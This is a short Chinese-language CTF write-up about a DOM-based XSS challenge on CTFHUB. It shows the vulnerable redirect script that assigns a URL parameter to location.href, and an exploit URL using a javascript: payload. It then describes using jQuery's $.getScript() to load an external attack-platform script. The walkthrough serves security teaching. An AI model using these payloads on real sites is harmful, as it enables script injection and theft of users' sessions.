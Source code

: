 ### DOM 跳转 XSS

话不多说，直接上题（CTFHUB）

![](https://pic1.imgdb.cn/item/687c5c7358cb8da5c8c80176.png)

进入网站直接看源代码

```js
<script>
    	// location.search：获取 URL 中 ? 后面的部分
    	// .split("=")：将字符串按照等号 = 分割成数组
    	// 如果 location.search 为 "?jumpto=https://www.baidu.com"，target 会是：
    	// ["?jumpto", "https://www.baidu.com"]
        var target = location.search.split("=")

		// target[0] 是 "?jumpto"
		// .slice(1) 移除第一个字符 ?，变成 "jumpto"
		// 如果等于 "jumpto"，就进入 if 块
        if (target[0].slice(1) == "jumpto") {
            // 将浏览器重定向到 target[1]，也就是 https://www.baidu.com
            location.href = target[1];
        }
</script>
```

注意！当你将类似于  l`ocation.href = "javascript:alert('xss')"`  这样的代码赋值给  `location.href`  时

浏览器会将其解释为一种特殊的 URL 方案，即 `"javascript:"`

在这种情况下，浏览器会将后面的 JavaScript 代码作为 URL 的一部分进行解析，然后执行它

所以我们可以构造如下链接：执行 JS 语句

```
http://challenge-f42fd52528263d24.sandbox.ctfhub.com:10800/?jumpto=javascript:alert(1)
```

![](https://pic1.imgdb.cn/item/687c722358cb8da5c8c82382.png)

用 `jQuery`  的  `$.getScript()`  函数来异步加载并执行平台的 JS 脚本，通过 `jumpto=javascript:$.getScript()`

![](https://pic1.imgdb.cn/item/687c7e9258cb8da5c8c83e5d.png)

